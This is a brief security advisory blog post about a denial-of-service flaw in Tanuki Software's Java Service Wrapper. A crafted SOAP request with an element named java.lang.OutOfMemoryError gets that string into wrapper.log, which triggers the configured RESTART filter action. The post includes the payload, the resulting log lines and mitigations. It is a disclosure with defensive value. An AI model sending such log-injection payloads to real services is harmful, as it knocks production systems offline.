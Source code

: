 ```yaml
---
layout: post
title:  "Process restart / Denial of Service by logfile injection on Tanuki Software Java Service Wrapper filter action"
datetime: 2019-08-29 21:50:00 MEST
last_modified_at: 2019-08-29 21:50:00 MEST
author: 'psytester'
---
```


Recently, when I played with logfile injection, I found a nice catch in the filter action of Tanuki Software's Java Service wrapper when [OutOfMemoryError Detection](https://wrapper.tanukisoftware.com/doc/english/prop-filter-x-n.html#outofmemory) is used.

```
The simplest way to do this is as follows:
Example:
wrapper.filter.trigger.1=java.lang.OutOfMemoryError
wrapper.filter.action.1=RESTART
```

This sample configuration might also be used in the production environment?

We just need to send a payload that will be propagate to the wrapper.log file at runtime.
In my case, I addressed a Soap IF and created a request with errors to cause an unmarshalling error.

Build a faulty SOAP request that ensures that the string java.lang.OutOfMemoryError is written in the log file, I added the non existing "java.lang.OutOfMemoryError" element to the namespace:
```
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope" xmlns:ns2=......>
   <soap:Header/>
   <soap:Body>
      <ns2:SoapOperation>
		.....
        <ns2:validElement><ns2:java.lang.OutOfMemoryError>Inject Me</ns2:java.lang.OutOfMemoryError></ns2:validElement>
		.....
      </ns2:SoapOperation>
   </soap:Body>
</soap:Envelope>
```

The goal is achieved, the false positive leads to the process restart:
```
INFO   | jvm 1    | 2019/08/21 13:38:13 | DefaultValidationEventHandler: [ERROR]: unexpected element (........., local:"java.lang.OutOfMemoryError"). Expected elements are (none)
STATUS | wrapper  | 2019/08/21 13:38:13 | The JVM has run out of memory.  Restarting JVM.
```

Mitigation:
- do not use this special filter action
- or the application needs to catch such exceptions, otherwise it will be visible in wrapper.log

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
